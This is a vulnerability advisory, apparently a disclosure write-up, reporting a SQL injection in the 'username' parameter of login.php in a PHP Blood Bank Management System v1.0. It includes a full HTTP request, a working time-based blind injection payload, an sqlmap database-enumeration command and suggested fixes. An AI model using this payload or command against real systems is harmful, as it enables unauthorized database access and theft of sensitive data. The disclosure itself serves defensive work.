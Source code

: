 # code-projects Blood Bank Management System In PHP With Source Code v1.0 /hms/admin/login.php SQL injection
# usernameOF AFFECTED PRODUCT(S)
+ Blood Bank Management System In PHP With Source Code
## Vendor Homepage
+ https://code-projects.org/blood-bank-management-system-in-php-with-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ Lanxiy7th
## Vulnerable File
+ login.php
## VERSION(S)
+ V1.0
## Software Link
+ https://download.code-projects.org/details/5adfb6bc-7ea9-4781-b91b-d4fca515fab4
# PROBLEM TYPE
## Vulnerability Type
+ SQL injection
## Root Cause
+ A SQL injection vulnerability was found in the 'login.php' file of the 'Blood Bank Management System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "username" and use it directly in SQL queries without appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.
+ ![1](1.png)

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.
# DESCRIPTION
+ Due to insufficient user input verification for the "username" parameter, a serious SQL injection vulnerability has been discovered in the "Blood Bank Management System In PHP With Source Code", allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to the database, modify or delete data, and access sensitive information without logging in. Immediate remedial measures are needed to ensure system security and protect data integrity.
# No login verification required
# Vulnerability details and POC
```
POST /login.php HTTP/1.1
Host: 192.168.1.200:1214
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://192.168.1.200:1214
Connection: close
Referer: http://192.168.1.200:1214/
Cookie: PHPSESSID=v80phjj1umn61msuqisnar8277
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin&password=123456

```

## Vulnerability type: 
+ time-based blind

## Vulnerability location:
+ 'username' parameter 
## Payload: 
```
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3565 FROM (SELECT(SLEEP(5)))PZxQ) AND 'pRBg'='pRBg&password=123456

```
+ ![2](2.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
sqlmap -r 123 --batch --dbs

```
+ ![3](3.png)

# Suggested repair
1. **Use prepared statements and parameter binding:**
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
Strictly validate and filter user input data to ensure it conforms to the expected format. 

3. **Minimize database user permissions:**
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
